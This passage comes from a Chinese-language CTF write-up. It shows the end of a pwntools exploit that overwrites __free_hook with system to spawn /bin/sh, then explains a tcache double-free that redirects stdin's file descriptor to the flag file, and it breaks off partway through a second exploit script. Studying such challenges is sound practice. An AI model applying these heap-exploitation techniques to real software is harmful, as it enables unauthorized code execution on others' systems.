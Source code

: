 ```python
delete(8)
delete(7)
for i in range(7):
	add(0x60, b'a')
one_gadgets = [0x4f2c5, 0x4f322, 0x10a38c]
add(0x60, packing.p64(__free_hook))
add(0x60, b'1')
add(0x60, b'1')
add(0x60, packing.p64(system))
# gdb.attach(get_process_pid('./ciscn_2019_en_3'))
# time.sleep(1)
add(0x60, b'/bin/sh\x00')
delete(20)

io.interactive()
```

# buu109-picoctf_2018_buffer overflow 0
略

# buu110-ciscn_2019_final_2
这是一道比较有意思的题。题目首先初始化过程中打开了flag文件，并将文件描述符设置为666。在本题中，经过理论分析发现，我们实际上可以直接获得shell，但出题人的本意显然不是这样。

由于glibc 2.27对于tcache double free的检查过于宽松，导致我们几乎可以无限制地在tcache上进行double free甚至多重free。因此在本题中，我们可以通过double free的方法释放出一个较大的可以被放入unsorted bin中的chunk，随后通过堆块重叠可将tcache指针修改到`_IO_2_1_stdin_`的`fd`字段，将标准输入的文件描述符从0改成666，这样标准输入就相当于重定向到了flag文件中，不过需要注意的是，在主界面菜单选择中，题目使用的是`read`函数，还是直接从文件描述符0的真标准输入读取，但在`bye_bye`中的scanf就会使用`_IO_2_1_stdin_`中的文件描述符，因此最后退出会直接输出flag的内容。

利用流程如下图所示。

![](1.png)

```python
from pwn import *

elf = ELF('./ciscn_final_2')
# io = process(['glibc_run', '2.27', './ciscn_final_2'])
io = remote("node5.buuoj.cn", 27552)

def get_process_pid(name):
    pid_list = []
    processes = os.popen('ps -ef | grep %s' % name)
    process_info = processes.read()
    for i in process_info.split('\n')[:-1]:
        j = re.split(' +', i)
        if j[7] == name:
            pid_list.append(int(j[1]))
    return pid_list[0]

def add(kind, value):
	io.sendlineafter(b'which command?\n> ', b'1')
	io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>', str(kind).encode())
	io.sendlineafter(b'your inode number:', str(value).encode())
	
def delete(kind):
	io.sendlineafter(b'which command?\n> ', b'2')
	io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>', str(kind).encode())
	
def show(kind):
	io.sendlineafter(b'which command?\n> ', b'3')
	io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>', str(kind).encode())
	
```